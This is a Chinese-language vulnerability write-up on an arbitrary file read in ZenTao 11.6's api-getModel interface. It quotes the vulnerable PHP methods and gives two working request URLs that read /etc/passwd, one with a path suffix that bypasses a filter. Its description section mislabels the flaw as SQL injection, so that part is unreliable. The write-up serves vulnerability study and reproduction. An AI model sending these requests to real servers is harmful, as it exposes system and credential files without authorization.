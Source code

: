 # 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](/assets/PeiQi-Wiki/img/zentao-1-20220313232358249.png)



## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

### 第一种方法

查看`module/file/moudel.php`下的`parseCSV方法`

```php
public function parseCSV($fileName)
    {
        $content = file_get_contents($fileName);
        /* Fix bug #890. */
        $content = str_replace("\x82\x32", "\x10", $content);
        $lines   = explode("\n", $content);

        $col  = -1;
        $row  = 0;
        $data = array();
        foreach($lines as $line)
        {
            $line    = trim($line);
            $markNum = substr_count($line, '"') - substr_count($line, '\"');
            if(substr($line, -1) != ',' and (($markNum % 2 == 1 and $col != -1) or ($markNum % 2 == 0 and substr($line, -2) != ',"' and $col == -1))) $line .= ',';
            $line = str_replace(',"",', ',,', $line);
            $line = str_replace(',"",', ',,', $line);
            $line = preg_replace_callback('/(\"{2,})(\,+)/U', array($this, 'removeInterference'), $line);
            $line = str_replace('""', '"', $line);

            /* if only one column then line is the data. */
            if(strpos($line, ',') === false and $col == -1)
            {
                $data[$row][0] = trim($line, '"');
            }
            else
            {
                /* if col is not -1, then the data of column is not end. */
                if($col != -1)
                {
                    $pos = strpos($line, '",');
                    if($pos === false)
                    {
                        $data[$row][$col] .= "\n" . $line;
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                        continue;
                    }
                    else
                    {
                        $data[$row][$col] .= "\n" . substr($line, 0, $pos);
                        $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                        $line = substr($line, $pos + 2);
                        $col++;
                    }
                }

                if($col == -1) $col = 0;
                /* explode cols with delimiter. */
                while($line)
                {
                    /* the cell has '"', the delimiter is '",'. */
                    if($line{0} == '"')
                    {
                        $pos  = strpos($line, '",');
                        if($pos === false)
                        {
                            $data[$row][$col] = substr($line, 1);
                            /* if line is not empty, then the data of cell is not end. */
                            if(strlen($line) >= 1) continue 2;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 1, $pos - 1);
                            $line = substr($line, $pos + 2);
                        }
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                    }
                    else
                    {
                        /* the delimiter default is ','. */
                        $pos = strpos($line, ',');
                        /* if line is not delimiter, then line is the data of cell. */
                        if($pos === false)
                        {
                            $data[$row][$col] = $line;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 0, $pos);
                            $line = substr($line, $pos + 1);
                        }
                    }

                    $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                    $col++;
                }
            }
            $row ++;
            $col = -1;
        }

        return $data;
    }
```



这里可以看到`以file为模块名、parseCSV为方法名去调用`读取文件



读取的文件名`$filename`参数可控，例如读取`/etc/passwd`



```plain
http://xxx.xxx.xxx.xxx/api-getModel-file-parseCSV-fileName=/etc/passwd
```



![img](/assets/PeiQi-Wiki/img/zentao-22.png)



- ✅注意以 .php .txt 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤

### 第二种方法



查看`module/api/moudel.php`下的`getMethod方法`



```php
public function getMethod($filePath, $ext = '')
{
    $fileName  = dirname($filePath);
    $className = basename(dirname(dirname($filePath)));
    if(!class_exists($className)) helper::import($fileName);
    $methodName = basename($filePath);

    $method = new ReflectionMethod($className . $ext, $methodName);
    $data   = new stdClass();
    $data->startLine  = $method->getStartLine();
    $data->endLine    = $method->getEndLine();
    $data->comment    = $method->getDocComment();
    $data->parameters = $method->getParameters();
    $data->className  = $className;
    $data->methodName = $methodName;
    $data->fileName   = $fileName;
    $data->post       = false;

    $file = file($fileName);
    for($i = $data->startLine - 1; $i <= $data->endLine; $i++)
    {
        if(strpos($file[$i], '$this->post') or strpos($file[$i], 'fixer::input') or strpos($file[$i], '$_POST'))
        {
            $data->post = true; 
        }
    }
    return $data;
}
```



这里与第一种大同小异，只是调用了不同模块的方法



看到 fileName  = dirname(filepath) 这段则为返回的目录名



所以读取`/etc/passwd`则需要写为`/etc/passwd/1`来绕过



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```



![img](/assets/PeiQi-Wiki/img/zentao-23.png)



